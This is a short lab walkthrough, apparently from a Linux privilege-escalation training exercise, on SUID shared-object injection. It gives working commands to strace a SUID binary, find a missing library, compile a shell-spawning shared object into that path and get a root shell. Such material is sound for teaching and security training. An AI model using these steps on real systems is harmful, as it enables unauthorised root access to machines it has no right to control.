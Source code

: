 # SUID / SGID Executables - Shared Object Injection

First, execute the file and note that currently it displays a progress bar before exiting:

`/usr/local/bin/suid-so`

Run **strace** on the file and search the output for open/access calls and for "no such file" errors:

`strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`

Note that the executable tries to load the /home/user/.config/libcalc.so shared object within our home directory, but it cannot be found.

Create the **.config** directory for the libcalc.so file:

`mkdir /home/user/.config`

Example shared object code can be found at **/home/user/tools/suid/libcalc.c**. It simply spawns a Bash shell. Compile the code into a shared object at the location the **suid-so** executable was looking for it:

`gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c`

Execute the **suid-so** executable again, and note that this time, instead of a progress bar, we get a root shell.

`/usr/local/bin/suid-so`
